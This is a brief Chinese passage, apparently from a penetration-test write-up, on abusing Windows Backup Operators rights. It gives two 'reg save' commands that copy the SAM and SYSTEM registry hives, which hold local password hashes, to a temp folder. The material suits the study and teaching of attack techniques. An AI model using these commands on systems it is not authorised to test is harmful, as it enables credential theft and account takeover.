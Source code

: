 我发现了一些有趣的事情:

![](img/61d7f804cd66be57a22bef9694c7d675.png)

因为备份操作员对任何文件都有完全读取权限，这也绕过了管理员设置的 ACL。

我们可以像这样简单地从注册表中下载 SAM 和系统文件:

`reg save hklm\sam C:\Temp\sam`

`reg save hklm\system C:\Temp\system`

![](img/35f0b4cc9189b27e87f87f1970112c54.png)![](img/924a76ad336ea4b961148a1eff46a335.png)
